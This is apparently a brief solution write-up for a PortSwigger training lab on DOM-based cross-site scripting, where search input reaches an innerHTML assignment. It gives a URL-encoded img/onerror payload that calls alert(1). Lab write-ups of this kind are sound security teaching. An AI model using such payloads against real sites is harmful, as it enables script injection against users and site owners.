 ----

### Lab Description


This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.


- Lab Solution

- insert the following payload inside the search functionality
```
<img%20src%20onerror=alert(1)>
```

![](/static/img/Pasted_image_20230627143103.png)


![](/static/img/Pasted_image_20230627143037.png)